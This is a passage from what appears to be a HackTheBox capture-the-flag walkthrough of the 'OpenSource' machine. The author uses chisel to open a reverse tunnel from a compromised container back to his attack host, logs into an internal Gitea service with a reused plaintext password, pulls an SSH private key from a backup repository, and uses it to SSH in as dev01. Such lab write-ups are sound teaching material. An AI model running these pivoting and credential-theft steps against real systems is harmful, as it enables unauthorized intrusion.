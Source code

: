I’ll run the binary in server mode on my box:

```

oxdf@hacky$ ./chisel_1.7.7_linux_amd64 server -p 8000 --reverse
2022/09/30 12:47:55 server: Reverse tunnelling enabled
2022/09/30 12:47:55 server: Fingerprint umHn2gs0l5nc8jxdT2k/Ib4llURm3snZQNzX4WkaERw=
2022/09/30 12:47:55 server: Listening on http://0.0.0.0:8000

```

I need to give it a port to listen on (`-p 8000`) because the default port of 8080 is already in use by Burp. `--reverse` allows me to create reverse tunnels.

Now I’ll connect with `chisel` from the container:

```

/tmp # chmod +x chisel_1.7.7_linux_amd64 
/tmp # ./chisel_1.7.7_linux_amd64 client 10.10.14.6:8000 R:3000:172.17.0.1:3000
2022/09/30 12:52:19 client: Connecting to ws://10.10.14.6:8000
2022/09/30 12:52:20 client: Connected (Latency 87.429342ms)

```

`R:3000:172.17.0.1:3000` says to listen on my box on port 3000, and forward anything that comes to that through the container to 172.17.0.1:3000.

In Firefox, I can now access Gitea:

![image-20220930085329050](https://0xdfimages.gitlab.io/img/image-20220930085329050.png)

#### Log In

I’ll remember the credentials from earlier for dev01, “Soulless\_Developer#2022”. I’ll try those with the Gitea login, and it works:

![image-20220930085456633](https://0xdfimages.gitlab.io/img/image-20220930085456633.png)

There’s a repo called home-backup, and it looks to be a backup of the account’s home directory:

![image-20220930085531653](https://0xdfimages.gitlab.io/img/image-20220930085531653.png)

In `.ssh`, there’s a RSA key-pair used. The `id_rsa` is the private key:

[![image-20220930085648524](https://0xdfimages.gitlab.io/img/image-20220930085648524.png)](https://0xdfimages.gitlab.io/img/image-20220930085648524.png)

[*Click for full image*](https://0xdfimages.gitlab.io/img/image-20220930085648524.png)

I’ll save that to a file on my host.

### SSH

Making sure the permissions are 600 so that SSH will trust the key, I’ll then connect to OpenSource as dev01:

```

oxdf@hacky$ chmod 600 ~/keys/opensource-dev01
oxdf@hacky$ ssh -i ~/keys/opensource-dev01 dev01@10.10.11.164
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-176-generic x86_64)
...[snip]...
dev01@opensource:~$

```
